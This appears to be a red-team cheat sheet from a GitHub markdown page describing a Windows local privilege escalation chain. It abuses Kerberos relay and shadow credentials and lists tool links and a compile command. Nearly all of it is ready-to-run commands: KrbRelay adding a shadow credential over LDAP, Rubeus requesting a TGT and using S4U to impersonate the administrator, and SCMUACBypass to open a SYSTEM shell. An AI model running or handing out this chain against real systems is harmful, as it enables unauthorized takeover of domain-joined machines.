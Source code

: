 # Coercion Attack

## Prerequisites
```
LDAP Signing should not to be enforced
```

### Adding a Shadow Credential to local machine
```
KrbRelay.exe -spn ldap/<domainControllerFqdn> -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```

### Get TGT for local admin
```
Rubeus.exe asktgt /user:<computer$> /certificate:<certificate> /password:<password> /enctype:AES256 /nowrap
```

### 
```
Rubeus.exe s4u /self /user:<computer$> /impersonateuser:administrator /altservice:host/<computer> /ptt /ticket:<base64Ticker>
```

### Get SYSTEM cmd shell
```
SCMUACBypass.exe
```

## Tools / References
* https://github.com/cube0x0/KrbRelay
* https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe
* https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1
* https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82 (compile using: cl -DUNICODE SCMUACBypass.cpp advapi32.lib)
* https://github.com/eladshamir/Whisker
* https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html

